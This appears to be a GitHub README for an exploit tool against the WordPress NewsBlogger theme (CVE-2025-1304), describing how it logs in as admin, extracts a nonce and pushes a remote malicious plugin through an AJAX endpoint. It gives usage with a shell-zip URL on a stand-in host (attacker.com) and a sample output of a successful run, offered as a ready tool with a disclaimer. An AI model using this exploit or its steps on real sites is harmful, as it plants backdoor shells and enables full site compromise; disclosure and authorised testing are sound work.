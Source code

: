 
# 🚨 WordPress NewsBlogger Theme <= 0.2.5.1 - Arbitrary File Upload (CVE-2025-1304)

**CVSS Score:** 8.8 (High)  
**Vulnerability Type:** Arbitrary File Upload  
**Component:** WordPress Theme  
**CVE ID:** CVE-2025-1304  

---

## 🔥 Vulnerability Overview

The `NewsBlogger` WordPress theme (versions <= 0.2.5.1) is vulnerable to an **Arbitrary File Upload** via the admin's welcome panel.  
This allows an attacker with administrative access to upload a `.zip` plugin archive containing a backdoor shell using an unvalidated plugin URL field.

A successful attack may lead to full site compromise.

---

## 🧠 Script Details

This Python script automates the exploitation of the vulnerability by:
- Logging in using supplied admin credentials.
- Extracting the `nonce` dynamically from the vulnerable welcome page.
- Uploading a remote malicious plugin via the vulnerable AJAX endpoint.

---

## ⚙️ Usage Instructions

```bash
python CVE-2025-1304.py -h
```

```text
usage: a.py [-h] --url URL --username USERNAME --password PASSWORD --shellweb SHELLWEB

WordPress NewsBlogger Theme vulnerable to Arbitrary File Upload #By: Nxploited ( Khaled Alenazi )

options:
  -h, --help                show this help message and exit
  --url, -u URL             Target base URL (e.g., http://target/wordpress)
  --username, -un USERNAME WordPress admin username
  --password, -p PASSWORD   WordPress admin password
  --shellweb, -shell SHELLWEB
                           Direct URL to the malicious shell zip (e.g., http://attacker.com/shell.zip)
```

---

## 📤 Example Output

```text
[+] Logging in to http://target/wordpress/wp-login.php
[+] Logged in successfully.
[+] Fetching welcome page to extract nonce: http://target/wordpress/wp-admin/admin.php?page=newsblogger-welcome
[+] Extracted nonce: 012818100b
[+] Sending malicious plugin URL to: http://target/wordpress/wp-admin/admin-ajax.php
[+] Server response:
{"success":true,"data":{"redirect_url":"http://target/wordpress/wp-admin/admin.php?page=newsblogger-welcome"}}
```

---

## ⚠️ Disclaimer

This code is provided for **educational and authorized security testing** purposes only.  
The author assumes no responsibility for any misuse or damage caused by this tool.

---

*By: Nxploited ( Khaled Alenazi)*
